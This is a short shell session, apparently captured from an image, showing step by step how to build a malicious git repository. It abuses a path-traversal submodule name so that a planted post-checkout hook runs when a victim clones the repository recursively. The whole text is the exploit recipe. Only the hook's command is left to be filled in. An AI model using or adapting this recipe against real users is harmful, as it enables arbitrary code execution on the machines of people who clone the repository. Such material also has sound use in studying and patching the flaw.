 $ git clone malicious.git
$ cd malicious
$ mkdir -p fakegit/modules/
# https://github.com/pentesterlab/empty.git can be any empty repository
$ git submodule add https://github.com/pentesterlab/empty.git evil
$ git submodule add https://github.com/pentesterlab/empty.git aaa
$ mv .git/modules/evil fakegit/modules/evil
# Make sure your post-checkout script starts with !/bin/sh
$ vi fakegit/modules/evil/hooks/post-checkout
# Adding any command to be executed in post-checkout file
$ chmod 755 fakegit/modules/evil/hooks/post-checkout
$ git config -f .gitmodules --rename-section submodule.evil submodule.../../fakegit/modules/evil
$ sed -i 's/\.git/fakegit/' evil/.git
$ git add .
$ git commit -m "Initial import"
$ git push